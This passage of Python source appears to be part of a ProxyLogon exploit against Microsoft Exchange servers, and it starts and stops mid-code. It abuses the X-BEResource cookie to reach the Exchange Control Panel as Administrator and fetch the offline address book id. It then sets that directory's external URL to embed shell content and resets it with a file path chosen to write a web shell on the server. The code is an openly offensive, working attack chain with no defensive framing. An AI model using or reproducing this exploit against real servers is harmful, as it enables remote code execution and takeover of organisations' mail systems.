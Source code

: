 ```python
                            format(server_name=FQDN, msExchEcpCanary1=msExchEcpCanary, sess_id=sess_id,
                                    msExchEcpCanary=msExchEcpCanary),
                            "Content-Type": "application/json; charset=utf-8",
                            "msExchLogonMailbox": "S-1-5-20",
                            "User-Agent": user_agent

                            },
                            json={"filter": {
                                "Parameters": {"__type": "JsonDictionaryOfanyType:#Microsoft.Exchange.Management.ControlPanel",
                                                "SelectedView": "", "SelectedVDirType": "OAB"}}, "sort": {}},
                            verify=False,
                            proxies=proxies
                            )

            if ct.status_code != 200:
                print("GetOAB Error!")
                exit()
            oabId = str(ct.content).split('"RawIdentity":"')[1].split('"')[0]
            print("Got OAB id: " + oabId)

            oab_json = {"identity": {"__type": "Identity:ECP", "DisplayName": "OAB (Default Web Site)", "RawIdentity": oabId},
                        "properties": {
                            "Parameters": {"__type": "JsonDictionaryOfanyType:#Microsoft.Exchange.Management.ControlPanel",
                                        "ExternalUrl": "http://ffff/#%s" % shell_content}}}

            ct = requests.post("https://%s/ecp/%s" % (target, random_name), headers={
                "Cookie": "X-BEResource=Administrator@%s:444/ecp/DDI/DDIService.svc/SetObject?schema=OABVirtualDirectory&msExchEcpCanary=%s&a=~1942062522; ASP.NET_SessionId=%s; msExchEcpCanary=%s" % (
                    FQDN, msExchEcpCanary, sess_id, msExchEcpCanary),
                "msExchLogonMailbox": "S-1-5-20",
                "Content-Type": "application/json; charset=utf-8",
                "User-Agent": user_agent
            },
                json=oab_json,
                proxies=proxies,
                verify=False
            )
            if ct.status_code != 200:
                print("Set external url Error!")
                exit()

            reset_oab_body = {"identity": {"__type": "Identity:ECP", "DisplayName": "OAB (Default Web Site)", "RawIdentity": oabId},
                            "properties": {
                                "Parameters": {"__type": "JsonDictionaryOfanyType:#Microsoft.Exchange.Management.ControlPanel",
                                                "FilePathName": shell_absolute_path}}}

            ct = requests.post("https://%s/ecp/%s" % (target, random_name), headers={
                "Cookie": "X-BEResource=Administrator@%s:444/ecp/DDI/DDIService.svc/SetObject?schema=ResetOABVirtualDirectory&msExchEcpCanary=%s&a=~1942062522; ASP.NET_SessionId=%s; msExchEcpCanary=%s" % (
                    FQDN, msExchEcpCanary, sess_id, msExchEcpCanary),
                "msExchLogonMailbox": "S-1-5-20",
                "Content-Type": "application/json; charset=utf-8",
                "User-Agent": user_agent
            },
```